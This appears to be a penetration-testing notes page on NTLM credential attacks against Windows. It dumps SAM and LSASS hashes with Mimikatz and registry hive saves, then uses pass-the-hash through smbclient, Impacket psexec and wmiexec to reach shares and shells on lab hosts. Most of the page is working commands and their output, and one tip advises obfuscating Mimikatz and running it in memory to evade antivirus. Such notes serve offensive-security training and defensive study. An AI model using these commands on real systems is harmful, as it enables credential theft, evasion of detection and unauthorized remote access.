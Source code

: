 ```yaml
---
description: >-
  New Technology LAN Manager is a replacement of LAN Manager used to store users
  password hashes in Windows.
---
```


# NTLM Toolkit

Credentials are stored when a user logs into an account & when a user runs a service. More information below.

## Security Account Manager (SAM)

Passwords hashes on Windows are stored in the Security Account Manager (SAM) database file. _**This is used to authenticate local and remote users.**_

## Local Security Authority Subystem (LSASS).

LSA stands for **Local Security Authority** and it is a special process which is responsible for authenticating users and verifying Windows logins.

## Mimikatz

_<mark style="color:red;">**NOTE:**</mark>_ When running Mimikatz it's very important use proper obfuscation techniques since it's heavily signatures. Running it entirely in memory and never saving it on Disk is a good approach.

We can use various commands to extract passwords from the system.

For both the following commands, we must have **SeDebugPrivilege** access right enabled, which we'll accomplish with **privilege::debug**.

### **LSA memory content**

```powershell
reg save hklm\sam sam.hiv
reg save hklm\security security.hiv
reg save hklm\system system.hiv
./mimikatz64.exe "privilege::debug" "token::elevate" "lsadump::sam sam.hiv security.hiv system.hiv" "exit"
```

### sekurlsa**::logonpasswords**

**sekurlsa::logonpasswords** attempts to extract plaintext passwords and password hashes from all available sources.

### l**sadump::sam**

**lsadump::sam** extracts NTLM hashes from SAM. NOTE: we must **token::elevate** to elevate to SYSTEM user privileges. We need local administrator privileges.

```powershell
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

656     {0;000003e7} 1 D 34811          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;000413a0} 1 F 6146616     MARKETINGWK01\offsec    S-1-5-21-4264639230-2296035194-3358247000-1001  (14g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 6217216     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)
 
mimikatz # lsadump::sam
Domain : MARKETINGWK01
SysKey : 2a0e15573f9ce6cdd6a1c62d222035d5
Local SID : S-1-5-21-4264639230-2296035194-3358247000
 
RID  : 000003e9 (1001)
User : offsec
  Hash NTLM: 2892d26cdf84d7a70e2eb3b9f05c425e
 
RID  : 000003ea (1002)
User : nelly
  Hash NTLM: 3ae8e5f0ffabb3a627672e1600f1ba10
...
```



## Passing NTLM - p_ass-the-hash_ (PtH)&#x20;

Depending on situation, we may be able to leverage an NTLM hash without cracking it.

Suppose we are trying to access a share on \\\192.168.246.212\\. We are entering the necessary permissions to access the share.

<figure><img src="../../.gitbook/assets/Screenshot_20231018_220241.png" alt=""><figcaption></figcaption></figure>



Like everything else we need local Administrator on the machine to enable code execution.

### Obtaining Hashes - Mimikatz

```shell-session
# privilege::debug

# token::elevate

# lsadump::sam

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 7a38310ea6f0027ee955abed1762964b
```

### SMBClient - Access Share

```shell-session
kali@kali$ smbclient \\\\192.168.236.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b

Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Jun  2 16:55:37 2022
  ..                                DHS        0  Wed Oct 18 17:54:13 2023
  secrets.txt                         A       16  Thu Sep  1 12:23:32 2022

                4554239 blocks of size 4096. 1602361 blocks available
smb: \> 

```



### Impacket Psexec

We can use Impacket to get a shell. The format is "LMHash:NTHash". We'll give **32 0's for LM**.

```shell-session
kali@kali$ impacket-psexec -hashes 0000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.236.212
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on 192.168.236.212.....
[*] Found writable share ADMIN$
[*] Uploading file dZntBvns.exe
[*] Opening SVCManager on 192.168.236.212.....
[*] Creating service AKvb on 192.168.236.212.....
[*] Starting service AKvb.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.707]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> 

```

### Impacket Wmiexec

Like psexec we can use wmiexec to obtain a shell.

```shell-session
kali@kali:~$ impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
files02\administrator

C:\>
```

_<mark style="color:red;">**NOTE:**</mark>_ The difference between Psexec & WmiExec is that Psexec works over SMB while WmiExec uses Windows Management Instrumentation.
